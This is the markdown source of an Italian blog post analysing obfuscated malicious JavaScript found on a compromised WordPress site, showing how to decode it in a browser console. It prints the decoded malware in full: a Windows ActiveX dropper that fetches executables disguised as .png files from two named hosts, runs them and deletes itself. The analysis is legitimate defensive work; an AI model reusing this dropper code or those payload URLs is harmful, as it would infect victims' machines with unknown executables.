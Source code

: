 ```yaml
---
layout: post
title: "Decifrare semplici Javascript malevoli"
promotion: 
modified: 
featured: true
category: [post]
tags: [javascript, malware, evilcode]
image:
  feature: code.jpg
  credit: Christiaan Colen
  creditlink: https://flic.kr/p/ydTDpb
comments: true
share: true
---
```

Compromettere un sito, può essere una cosa semplice. Compromettere un sito
basato su [WordPress](https://wordpress.org) può essere una cosa molto
semplice. 

Semplicemente chi usa [WordPress](https://wordpress.org) vuole qualcosa di
semplice e veloce per essere online il prima possibile. Spesso per questo
genere di progetti, il budget a disposizione è limitato e, di conseguenza, temi
come _hardening_ o _penetration test_ non trovano spazio nelle voci di
bilancio.

Bucare un sito in WordPress, per distribuire codice malevolo è una pratica abbastanza comune. E' quello che ha notato un amico, ieri durante un test.

Ha trovato [questo codice JavaScript](http://pastebin.com/AjyQ8wwC),
all'interno di un sito. Dedicato ad altre attività sul sito, ha chiesto una
mano per decifrare al volo quello che, a prima vista, era un codice JavaScript
un po' "offuscato".

In questo caso la struttura del codice era abbastanza chiara. Nella prima
variabile, _links_, dovevano esserci delle url, probabilmente afferenti ad un
secondo _stage_ di questo malware. Nella seconda variabile, _code_, doveva
esserci il codice vero e proprio del malware ed in coda la coppia formata dalla
routine per mettere in chiaro _links_ e _code_ ed il codice per innescare tutto
il processo.

{% highlight js %}
function d( c )
{
    c = c.split( '' );
    for( var i = 0; i < c.length; i += 3 ) {
        c[ i ] = '';
    }
    return c.join( '' );
}
{% endhighlight %}

Come lo possiamo mettere in chiaro per una successiva analisi? Semplice. Ci
serve un browser e la console con gli strumenti di sviluppo.

![Il nostro tool di deobfuscation]({{site.url}}/assets/images/js_open_web_console.png)

Una volta qui, la prima cosa che dobbiamo fare è dichiarare la routine di
decifratura. La funzione _d()_ in questo caso.

![Dichiaro d()]({{site.url}}/assets/images/js_declare_decrypt_routine.png)

Incolliamo poi, all'interno della console, le due variabili _links_ e _code_
che ci interessa mettere in chiaro. Attenzione, poiché stiamo parlando con
l'interprete JavaScript del browser, dobbiamo incollare l'intera dichiarazione
della variabile, in modo che sia sintatticamente corretta.

![Dichiaro le due variabili]({{site.url}}/assets/images/js_paste_encrypted_strings.png)

A questo punto, il gioco è fatto. Basta invocare la nostra routine di
decifratura, _d()_, sulle variabili _links_ e _code_ ed abbiamo il codice dle
malwar in chiaro.

![Decifro le stringhe]({{site.url}}/assets/images/js_decrpyt_strings.png)

_Voilà_, [decifrato](http://pastebin.com/mUt43QTb)

Questi i link contenenti il payload da scaricare sul browser della vittima:

{%highlight js%}
"var links = ["http://www.stageportieri.it/wp/P330494.png","http://www.starcrossedgdr.altervista.org/pages/im/P0003939.png"];"
{%endhighlight%}

Questo il codice malevolo:

{%highlight js%}
"var ws = new ActiveXObject( "WScript.Shell" );if( ws.Exec( "ping" ).StdOut.ReadAll().match( /ping/ ) ) {    var obj = new ActiveXObject( "MSXML2.XMLHTTP" );    var File = WScript.CreateObject( "Scripting.FileSystemObject" );    var temp = File.GetSpecialFolder( 2 );    function genFileName()    {        return "/" + Math.round( Math.random() * 999999999 ) + ".exe";    }    function run( filename )    {        var ws = new ActiveXObject( "WScript.Shell" );        ws.Run( filename, 1, 0 );    }    function saveFile( body, filename )    {        Stream.Open();        Stream.Type = 1;        Stream.Write( body );        Stream.Position = 0;        Stream.SaveToFile( filename, 2 );        Stream.Close();    }    function deleteFile( filename )    {        if( File.FileExists( filename ) ) {            File.DeleteFile( filename );        }    }    function suicide()    {        deleteFile( WScript.ScriptFullName )    }    var Stream = new ActiveXObject( "ADODB.Stream" );    for( var i = 0; i < links.length; i++ ) {        var filename = temp + genFileName();        obj.Open( "GET", links[ i ], false );        obj.Send();        if( obj.Status == 200 ) {            try {                saveFile( obj.ResponseBody, filename );                run( filename );                done = true;            }            catch( err ) {            }        }    }    suicide();}"
{% endhighlight %}

Analizzandolo, abbiamo un codice che vuole creare un oggetto ActiveX, quindi un
codice pensato per colpire vittimeWindows con Internet Explorer. I due link,
probabilmente piazzati lì dopo aver compromesso anche le macchine che li
ospitano, non sono ovviamente immagini, ma sono due file eseguibili.

Il codice, cerca di scaricarli dalla rete e li lancia in esecuzione. Purtroppo
nessuno dei due file era disponibile al momento della scrittura di questo post,
quindi niente analisi del codice della fase 2.

Enjoy it!
